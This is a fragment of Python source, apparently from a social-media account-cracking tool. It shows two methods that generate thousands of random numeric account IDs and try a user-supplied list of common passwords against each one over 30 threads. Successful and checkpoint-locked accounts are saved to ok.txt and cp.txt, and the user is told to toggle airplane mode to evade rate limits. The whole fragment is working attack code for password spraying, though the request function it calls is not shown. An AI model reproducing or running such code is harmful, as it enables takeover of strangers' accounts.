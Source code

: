 	def old_9(self):
		x = 11111111111
		xx = 1799999999
		idx = "1000"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,W,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
		
	def old4_7(self):
		x = 11111111
		xx = 99999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
